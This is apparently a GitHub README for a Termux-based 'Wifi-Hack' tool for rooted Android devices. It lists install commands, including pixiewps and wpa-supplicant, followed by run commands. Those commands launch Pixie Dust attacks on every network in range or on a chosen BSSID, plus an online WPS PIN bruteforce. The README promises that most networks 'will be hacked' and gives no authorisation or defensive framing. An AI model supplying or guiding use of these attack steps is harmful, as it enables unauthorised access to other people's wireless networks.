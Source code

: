## Wifi-Hack 🗿
### Hack WIfi Using Termux! (Need Rooted Device )🧑‍💻

[![Screenshot-20240524-183227-Termux.png](https://i.postimg.cc/qMjPGGTw/Screenshot-20240524-183227-Termux.png)](https://postimg.cc/vcx2YfDx) 

### How to install :

```bash
pkg update && pkg upgrade
```
```
pkg install git
```
```
pkg install python
```
```bash
apt update && apt upgrade
```
```bash
pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && termux-setup-storage
```
```
git clone https://github.com/tanvirhasan999/Wifi-Hack
```
```
cd Wifi-Hack
```
```
chmod +x fück-wifi.py
```
### Note📝 : Now turn off Wifi 
```
sudo python fück-wifi.py -i wlan0 -K
```
## Note📝: It will show all Wifi within your range. Among them, 99% of Green's will be hacked. And the White ones may also be tried. And the Red ones will not be hacked.

## Enter this command to open Tool next time. 
```bash
sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note 📝: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
## Thanks For Using My Tool ❤️
